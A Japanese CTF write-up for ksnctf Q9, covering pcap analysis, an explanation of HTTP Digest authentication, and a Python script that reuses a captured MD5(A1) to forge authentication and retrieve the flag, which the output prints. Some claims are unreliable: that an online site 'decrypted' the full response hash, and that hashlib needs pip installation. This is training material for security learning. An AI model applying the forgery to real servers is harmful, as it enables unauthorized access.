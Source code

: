 
# Q9 Digest is secure!
## 問題URL
http://ksnctf.sweetduet.info/q/9/q9.pcap

## 概要
pcapファイルが与えられる。  
pcapファイルを開くと`49.212.153.157`に`GET /~q9/`メッセージを送り認証を要求されている様子が見られる。  
認証を突破してサーバにアクセスすれば何とかなるのかなと思い、突破を試みる

なお、pcapファイルないで`flag`の文字列を検索すると16番目のパケットで以下が見つかる。

```
Line-based text data: text/html
    <!DOCTYPE html>\n
      <head>\n
        <meta charset="utf-8">\n
        <title>Q9</title>\n
      </head>\n
      <body>\n
        <p>Congratulations!</p>\n
        <p>The flag is <a href="flag.html">here</a>.</p>\n
      </body>\n
    </html>\n
```
よって、/~q9/ にアクセスすればフラグが表示されることがわかる。

## ダイジェスト認証
pcapファイル9番目のパケットのHTTPヘッダをみると`WWW-Authenticate: Digest` の記述からダイジェスト認証であることがわかる。  
ダイジェスト認証はチャレンジ＆レスポンス型の認証方式である。手順としては
1. サーバがクライアントにランダムな文字列(nonce)を送る
1. クライアントは受け取ったnonceと事前に共有した鍵を用いてresponseを計算し、サーバに送信する
1. サーバは受け取ったresponseとローカルで計算した計算結果を比較する
1. 計算結果が一致すれば、パスワードを知っている正規ユーザと判断し認証成功とする

responseは以下のようにして計算される。

```
A1 = ユーザ名 ":" realm ":" パスワード
A2 = HTTPのメソッド ":" コンテンツのURI
response = MD5( MD5(A1) ":" nonce ":" nc ":" cnonce ":" qop ":" MD5(A2) )
```
要するに、**要求されたnonceに対して正しいresponseを生成できれば認証を突破できる**はずである。

## response を計算する

我々はパスワードを知らないのでMD5(A1)の部分が計算できない。  
そこで、pcapファイルのresponseからMD5(A1)を復号を試みる。  
MD5は本来復号困難な一方向ハッシュ関数であるが、すでに突破方法が発見されている(よって脆弱！)。

### MD5(A1) の復号
pcapファイルの14番目のパケットHTTPヘッダ内の`Authorization`の値は以下  
`Digest username="q9", realm="secret", nonce="bbKtsfbABAA=5dad3cce7a7dd2c3335c9b400a19d6ad02df299b", uri="/~q9/", algorithm=MD5, response="c3077454ecf09ecef1d6c1201038cfaf", qop=auth, nc=00000001, cnonce="9691c249745d94fc"`

このうち、`response`の値を復号する。  
MD5の復号はいくつかのwebサイトで利用可能な模様。今回は以下のサイトを用いた  
http://md5decryption.com/  

これにより次を得る。  
`c627e19450db746b739f41b64097d449:bbKtsfbABAA=5dad3cce7a7dd2c3335c9b400a19d6ad02df299b:00000001:9691c249745d94fc:auth:31e101310bcd7fae974b921eb148099c`

| フィールド名 | 値 |
| --- | --- |
| MD5(A1) | c627e19450db746b739f41b64097d449|
| nonce | bbKtsfbABAA=5dad3cce7a7dd2c3335c9b400a19d6ad02df299b|
| nc | 00000001 |
| cnonce | 9691c249745d94fc |
| qop | auth |
| MD5(A2) | 31e101310bcd7fae974b921eb148099c |

上記表をみるとGETリクエストのヘッダのフィールドがきちんと再生されていることがわかる。  

## フラグ取得スクリプト
MD5(A1)を用いてダイジェスト認証を突破するスクリプトを作成する。  
MD5の計算にはhashlibを用いるので`pip install hashlib` でインストールする。  
なお、実行する前にhttp://ksnctf.sweetduet.info:10080/~q9/ へリクエストが到達するようにしておく必要があるので注意。


```python
import urllib
import hashlib
import urllib.error
import urllib.request

url = 'http://ksnctf.sweetduet.info:10080/~q9/flag.html'

#md5 = hashlib.md5()
username = "q9"
realm = "secret"
nonce = ""
uri = "/~q9/"#flag.html"
algorithm = "MD5"
response = ""
qop = "auth"
nc = "00000001"
cnonce = "9691c249745d94fc"
md5a1 = "c627e19450db746b739f41b64097d449"
a2 = 'GET:' + uri

def getNonce():
    try:
        data = urllib.request.urlopen(url)
        html = data.read()
    except urllib.error.HTTPError as e:
        nonce = e.info()['WWW-Authenticate'].split('"')[3]
        return nonce

def genMD5(str):
    m = hashlib.md5()
    bstr = str.encode()
    m.update(bstr)
    return m.hexdigest()

def genResponse(nonce):
    response = genMD5(md5a1 + ':' + nonce + ':' + nc + ':' + cnonce + ':' + qop + ':' + genMD5(a2))
    return response

def genAuthorized(nonce, response):
    authorized = 'Digest username="' + username + '", realm="' + realm + '", nonce="' + nonce + '",uri="' + uri + '", algorithm=' + algorithm + ', response="' + response + '", qop=' + qop + ', nc=' + nc + ', cnonce="' + cnonce + '"'
    return authorized
```

まず、responseを計算するために必要なnonceを取得する。


```python
nonce = getNonce()
response = genResponse(nonce)
auth = genAuthorized(nonce, response)
header = {'Authorization' : auth}
req = urllib.request.Request(url, None, header)
```


```python
try:
    data = urllib.request.urlopen(req)
    html = data.read()
    print(html)
except urllib.error.HTTPError as e:
    print(e.code)
    print(e.info())
```

    b'<!DOCTYPE html>\n  <head>\n    <meta charset="utf-8">\n    <title>Q9</title>\n  </head>\n  <body>\n    <p>FLAG_YBLyivV4WEvC4pp3</p>\n  </body>\n</html>\n'

